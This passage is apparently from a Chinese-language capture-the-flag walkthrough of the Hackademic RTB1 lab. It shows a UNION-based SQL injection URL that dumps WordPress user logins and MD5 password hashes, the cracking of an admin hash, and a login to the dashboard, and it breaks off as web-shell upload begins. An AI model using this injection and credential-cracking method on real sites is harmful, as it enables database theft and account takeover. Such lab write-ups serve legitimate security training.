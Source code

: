5. 发现库名是`wordpress` ，猜测CMS是`wordpress` ，我们寻找一下看看有没有有用的信息
    
    ![image.png](image%202.png)
    
    发现确实是`wordpress`并且版本是`1.5.11`
    
6. 为了方便注入，我们到网上查找`wordpress`的表结构
    
    > [https://codex.wordpress.org/Database_Description](https://codex.wordpress.org/Database_Description/2.0)
    > 
    
    值得我们关注的是 **`wp_users`**表
    
    `user_login`，`user_pass`，`user_level` 中的三个字段
    
7. 接着注入
    
    获取表的`user_login`，`user_pass`，`user_level` 中的三个字段，并以`-`为分隔符
    
    ```php
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,group_concat(user_login,0x2d,user_pass,0x2d,user_level),3,4,5 from wp_users
    ```
    
    得到数据：
    
    ```php
    NickJames-21232f297a57a5a743894a0e4a801fc3-1,
    JohnSmith-b986448f0bb9e5e124ca91d3d650f52c-0,
    GeorgeMiller-7cbb3252ba6b7e9c422fac5334d22054-10,
    TonyBlack-a6e514f9486b83cb53d8d932f9a04292-0,
    JasonKonnors-8601f6e1028a8e8a966f6c33fcd9aec4-0,
    MaxBucky-50484c19f1afdaf3841a0d821ed393d2-0
    ```
    
    可以发现`GeorgeMiller` 的权限是10是最大的，密码格式看着像是`md5`，我们拿到cmd5破解
    
    查询结果：`q1w2e3`
    
8. 我们找到后台，使用`GeorgeMiller` 登陆进去
    
    后台地址是 ： `http://192.168.75.132/Hackademic_RTB1/wp-login.php`
    
    登陆成功！
    

## 登录后台上传shell

登陆后台后，wordpress我们一般要做的是打开文件上传功能，并且上传getshell

1. 开启文件上传功能，并且添加php后缀
    